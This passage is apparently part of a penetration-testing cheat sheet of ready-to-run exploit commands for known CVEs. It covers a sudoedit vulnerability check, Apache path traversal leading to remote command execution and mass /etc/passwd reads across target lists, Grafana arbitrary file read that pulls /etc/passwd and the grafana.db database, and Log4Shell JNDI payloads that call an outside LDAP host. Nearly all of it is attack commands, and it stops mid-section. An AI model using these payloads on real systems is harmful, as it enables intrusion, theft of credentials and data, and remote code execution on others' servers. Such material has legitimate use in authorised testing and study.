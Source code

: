 ```console
$ sudoedit -s /
```

The machine is vulnerable if one of the following message is shown.

```console
sudoedit: /: not a regular file
segfault
```

Not vulnerable if the error message starts with `usage:`.

## CVE-2021-41773, CVE-2021-42013, CVE-2020-17519: Simples Apache Path Traversal (0-day)

```console
$ curl --data "echo;id" 'http://127.0.0.1:55026/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

```console
$ cat <FILE>.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

## CVE-2021-43798: Grafana Directory Traversal and Arbitrary File Read (0-day)

> https://vulncheck.com/blog/grafana-cve-2021-43798

### Prerequisistes

- Grafana 8.0.0-beta1 > 8.3.0

### Execution

```console
$ curl 'http://<RHOST>:3000/public/plugins/welcome/../../../../../../../../etc/passwd' --path-as-is
$ curl 'http://<RHOST>:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db' -o grafana.db
```

## CVE-2021-44228: Log4Shell RCE (0-day)

### Testing

```console
$ cat targets.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:[ldap://TOKEN.canarytokens.com/a](ldap://TOKEN.canarytokens.com/a)}" -H "X-Api-Version: ${jndi:[ldap://TOKEN.canarytokens.com/a](ldap://TOKEN.canarytokens.com/a)}" -H "User-Agent: ${jndi:[ldap://TOKEN.canarytokens.com/a](ldap://TOKEN.canarytokens.com/a)}";done
```

### Prerequisistes

